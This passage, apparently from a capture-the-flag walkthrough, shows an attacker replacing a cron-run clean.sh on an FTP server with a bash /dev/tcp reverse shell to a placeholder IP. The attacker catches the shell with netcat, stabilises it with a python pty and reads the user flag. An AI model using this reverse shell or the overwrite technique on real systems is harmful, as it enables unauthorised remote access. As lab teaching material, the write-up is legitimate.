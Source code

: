 ```
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33600
whoami
python3 -c 'import pty;pty.spawn("/bin/bash")'
^C
```

<br>

## Getting a Shell

Well, that didn't work. Let's try another method for connecting back to my listener. I modified **clean.sh** to the following:
```
#!/bin/bash

sh -i >& /dev/tcp/<MY IP>/4444 0>&1
```
I then uploaded it back to the FTP server and started a listener on my system with `nc -nvlp 4444`:
```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33614
sh: 0: can't access tty; job control turned off
$ whoami
namelessone
$ hostname
anonymous
```
Success! Let's make this an interactive shell:
```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$ export TERM=xterm
export TERM=xterm
namelessone@anonymous:~$ ^Z
zsh: suspended  nc -nvlp 4444

┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg

[1]  + continued  nc -nvlp 4444

namelessone@anonymous:~$
```

<br>

## Finding the user.txt flag

Now that I'm logged in and have a stable shell let's look for the **user.txt** flag. Running `pwd` shows I'm already in the currently logged in users home directory:
```
namelessone@anonymous:~$ pwd
/home/namelessone
```
`ls` shows:
```
namelessone@anonymous:~$ ls
pics  user.txt
```
There it is! `cat user.txt` gives us the **user.txt** flag:
```
namelessone@anonymous:~$ cat user.txt
<REDACTED>
```
